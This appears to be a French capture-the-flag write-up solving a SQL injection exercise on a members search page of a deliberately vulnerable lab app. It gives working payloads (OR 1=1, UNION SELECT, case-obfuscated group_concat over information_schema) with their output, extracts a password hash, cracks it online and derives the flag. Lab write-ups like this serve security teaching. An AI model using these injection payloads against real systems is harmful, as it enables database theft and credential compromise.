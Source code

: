 # SQL Injection Members

- On voit que dans cette entrée il y a une injection SQL
- On commence donc par recuperé toute les données
```
# Injection
1 OR 1=1
# Result
ID: 1 OR 1=1 
First name: Barack Hussein
Surname : Obama

ID: 1 OR 1=1 
First name: Adolf
Surname : Hitler

ID: 1 OR 1=1 
First name: Joseph
Surname : Staline

ID: 1 OR 1=1 
First name: Flag
Surname : GetThe
```
- Une entrée s'apelle GetThe Flag. On comprend donc qu'il faut y recuperer les autre colonne
- On recupere le nom de notre Database
```
1 UNION SELECT version(),database()

ID: 1 UNION SELECT version(),database()
First name: 5.5.44-0ubuntu0.12.04.1
Surname : Member_Sql_Injection
```
- On recupere ensuite la table
```
# Injection
1 UniOn Select 1,gRoUp_cOncaT(0x7c,table_name,0x7C) fRoM information_schema.tables wHeRe table_schema=database()
# Result
ID: 1 UniOn Select 1,gRoUp_cOncaT(0x7c,table_name,0x7C) fRoM information_schema.tables wHeRe table_schema=database()
First name: 1
Surname : |users|
```
- Puis les differente column
```
1 UNION ALL SELECT column_name,table_name from information_schema.columns

ID: 1 UNION ALL SELECT column_name,table_name from information_schema.columns
First name: user_id
Surname : users

ID: 1 UNION ALL SELECT column_name,table_name from information_schema.columns
First name: first_name
Surname : users

ID: 1 UNION ALL SELECT column_name,table_name from information_schema.columns
First name: last_name
Surname : users

ID: 1 UNION ALL SELECT column_name,table_name from information_schema.columns
First name: town
Surname : users

ID: 1 UNION ALL SELECT column_name,table_name from information_schema.columns
First name: country
Surname : users

ID: 1 UNION ALL SELECT column_name,table_name from information_schema.columns
First name: planet
Surname : users

ID: 1 UNION ALL SELECT column_name,table_name from information_schema.columns
First name: Commentaire
Surname : users
```
- Maintentant on peut recuperer les differente information contenu dans le column
```
1 UNION SELECT concat(user_id,char(58),first_name,char(58),last_name,char(58),town,char(58),country,char(58),planet,char(58),Commentaire,char(58),countersign),2 FROM users
First name: 5:Flag:GetThe:42:42:42:Decrypt this password -> then lower all the char. Sh256 on it and it's good !:5ff9d0165b4f92b14994e5c685cdce28
```
- On voit qu'il y a un hash. On le reverse donc sur l'[internet](https://md5.gromweb.com/?md5=5ff9d0165b4f92b14994e5c685cdce28)

5ff9d0165b4f92b14994e5c685cdce28 => FortyTwo => 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
